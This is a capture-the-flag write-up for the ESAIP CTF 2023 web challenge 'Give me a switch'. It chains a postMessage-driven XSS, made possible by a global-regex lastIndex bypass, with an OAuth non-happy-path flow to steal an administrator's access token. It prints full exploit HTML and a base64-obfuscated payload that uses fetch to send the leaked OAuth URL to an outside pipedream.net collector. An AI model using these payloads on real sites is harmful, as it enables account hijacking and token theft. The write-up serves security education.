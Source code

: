 # Give me a switch !

# Description

Luigi finally gathers enough money to buy a switch, but the marketplace blocks him... Help him!

Author: Mizu

# Sources

https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/give_me_a_switch

# Solution

In this challenge, we're given the application's source code, and we can see that it's rather short. What we can clearly identify is that we'll need to find a vulnerability in the application's oauth implementation to take control of the administrator's account and retrieve our flag. In fact, to have the flag, we have to had the correct access_token, and the correct email :

```js

const access_token = req.session.access_token;
if (access_token) {
    axios.get(`https://www.googleapis.com/oauth2/v2/userinfo?fields=email&access_token=${access_token}`).then(response => {
        const email = response.data.email;
        if (email === process.env.EMAIL) {
            res.send(allowed);
        } else {
            res.status(403);
            res.send(not_allowed);
        }
    })
}
```

This challenge is separated in two domains :
- Main domain : https://app-give-me-a-switch.esaip-cyber.com
- Chat domain : https://chat-give-me-a-switch.esaip-cyber.com

On the main app, there isn't any relevant things, except the route /buy which will gave us our flag. If we look at the sources, we can see that a chatbot have been implemented on the application, if we look closer to the frontend code, we can see that it's working with iframe postmessage :

```js
//javascript in https://chat-give-me-a-switch.esaip-cyber.com domain
window.onload = () => {
    var bot = new ChatBot();

    onmessage = e => {
        if (!(e.source === parent)) { return }

        if (e.data.action === "init") {
            bot.init(e.data.caller);

        } else if (e.data.action === "ask") {
            var d = new Date();
            d = d.getHours() + ':' + d.getMinutes();

            user_msg(e.data.question, d);
            bot_msg(bot.ask(e.data.question), d);
            scrollTo(0, document.body.scrollHeight);
        }
    }
}
```

If we look at the javascript of the main domain, we can see that a iframe is created, and it's sending post message to her :

```html
[...]
<button onclick="bot.contentWindow.postMessage({'action': 'ask', 'question': this.innerText}, '*');">What is the status of my order?</button>
[...]
```

Here the is a problem, in fact, in the chat domain server code, there isn't any restriction to iframe this domain, so we can iframe it from our domain (for example vitemaweed.fr), and send post message to it !

Now, you can think "yeah you can iframe a website incredible what's the matter here ?", the problem is in the code that handle and happened the message send through post message :

```js
const regex = /<|>/g;
var user_msg = (msg, date) => {
    const user_template = `
    <div class="d-flex flex-row justify-content-end mb-4 pt-1">
        <div>
            <p class="small p-2 me-3 mb-1 text-white rounded-3" style="background-color: #FF393A;">{{message}}</p>
            <p class="small me-3 mb-3 rounded-3 text-muted d-flex justify-content-end">{{date}}</p>
        </div>
        <img src="/static/img/toad.png" alt="avatar 1" style="width: 45px; height: 100%;">
    </div>`;

    let content;
    var output  = document.createElement("div");
    if (regex.test(msg)) {
        content = user_template
            .replace("{{message}}", "Attack detected!")
            .replace("{{date}}", date);
    } else {
        content = user_template
            .replace("{{message}}", msg)
            .replace("{{date}}", date);
    }
    output.innerHTML = content;
    chat.appendChild(output);
}
```

We can see that if we match the regex, the message send will be happened with `innerHTML`, which can leads to XSS. But how can we bypass this regex ?

In the `test` function, there is a bug. When you're using the `/g` flag in a regex, which means "global", the `regex.text` function will keep an internal index of the last match, and if you recall it in the same context, this internal index will reference the last match, and it will not start from the beginning of the new string, but from the last index, see [here](https://stackoverflow.com/questions/43827851/bug-with-regexp-test-javascript).

Here we are not in a loop, but the post message are received in the same context, so we have to send a lot of "a" in the first post message, followed by a "<" to trigger the regex, so the internal index will be huge, and we can put our xss in the second post message.

I've created this little HTML to do so :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="http://chat-give-me-a-switch.esaip-cyber.com:3001/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");
document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="alert(document.domain)"`},"*");
})
</script>
</body>
</html>
```

And we get :

![xss](images/1.png)

So here we have an xss in an iframe domain that can communicate with the main domain, what can we do ? While looking for an exploit, I found this very interesting article from [@fransrosen](https://twitter.com/fransrosen), which talk about [account hijacking using dirty dancing in oauth flows](https://labs.detectify.com/2022/07/06/account-hijacking-using-dirty-dancing-in-sign-in-oauth-flows/), particulary "Non-happy paths in the OAuth-dance". 

So to exploit this, we have to force the administrator to sign in in the oauth flow, but with a wrong state. What happened in this case ? The application didn't handle this case, and all oauth parameters will be reflected in the url fragment, which can be recovered in javascript. (if we are on the same domain). The problem here is that the xss is on the chat domain, not on the main domain that handle the oauth flow. 

But if we came back at the frontend source of the main app, we can see this in the "main.js" file :

```js
window.onload = () => {
    scroll = () => {};
    setTimeout(() => { bot.contentWindow.postMessage({"action": "init", "caller": document.location.href}, '*') }, 500);
}
```

The main domain is sending through a post message the current location of the window, and that can be recovered from our iframe !

So we have all our gadgets, here is the plan :

- Trigger the XSS on the chat domain to force the oauth to be triggered with a wrong state to trigger a non-happy path :

```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow

- response_type : token => here we want the token of the victim to be able to pass it through the /auth/callback endpoint of the application
- client_id : We recover it from a normal authentication with the app
- state : An invalid state to trigger the non-happy path
```

- Execute some javascript on the chat domain iframe to listen for event on the current window to recover the post message from the main application that send the current location :

```js
x = setInterval(function() { if(b && b.frames[0]) { b.frames[0].eval('window.addEventListener("message",function(e){var a= e.data.caller;fetch("https://ensvuwgi6wpdc.x.pipedream.net/?data="+encodeURIComponent(a));})')}});
```

Here is the final HTML payload that have to be stored on the attacker server :

```html
<!DOCTYPE HTML>
<head>
</head>
<body>
<p id="leak"></p>
<iframe id="iframe" src="https://chat-give-me-a-switch.esaip-cyber.com/bot"></iframe>
<script>
setTimeout(function(){
document.getElementById("iframe").contentWindow.postMessage({"action":"init","caller":"worty"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror="b = window.open('https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?response_type=token&redirect_uri=https%3A%2F%2Fapp-give-me-a-switch.esaip-cyber.com%2Fauth%2Fcallback&scope=email&client_id=374058566213-j138s6n7s5dmpqqj36nqj1c2kk62eivo.apps.googleusercontent.com&state=aa20df0b6bc39be1ae8d24d8f56e954e3e271e76b9e85879c687653e205788f649aa&service=lso&o2v=2&flowName=GeneralOAuthFlow')">`},"*");

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":"a".repeat(999)+"<"},"*")

document.getElementById("iframe").contentWindow.postMessage({"action":"ask","question":`<img src=x onerror='eval(atob("eCA9IHNldEludGVydmFsKGZ1bmN0aW9uKCkgeyBpZihiICYmIGIuZnJhbWVzWzBdKSB7IGIuZnJhbWVzWzBdLmV2YWwoJ3dpbmRvdy5hZGRFdmVudExpc3RlbmVyKCJtZXNzYWdlIixmdW5jdGlvbihlKXt2YXIgYT0gZS5kYXRhLmNhbGxlcjtmZXRjaCgiaHR0cHM6Ly9lbnN2dXdnaTZ3cGRjLngucGlwZWRyZWFtLm5ldC8/ZGF0YT0iK2VuY29kZVVSSUNvbXBvbmVudChhKSk7fSknKX19KTs="))'>`},"*")
},2000);

</script>
</body>
```

We now send this to the administrator, we recover is token inside the leaked URL, and we can authenticate with it's account through /auth/callback !

![flag](images/2.png)

Thanks a lot to [@kevin_mizu](https://twitter.com/kevin_mizu) for this challenge !

# Flag

ECTF{0auTh+hR3f_P0S1_M3sS4g3_L34k_T0_TH3_m00N}
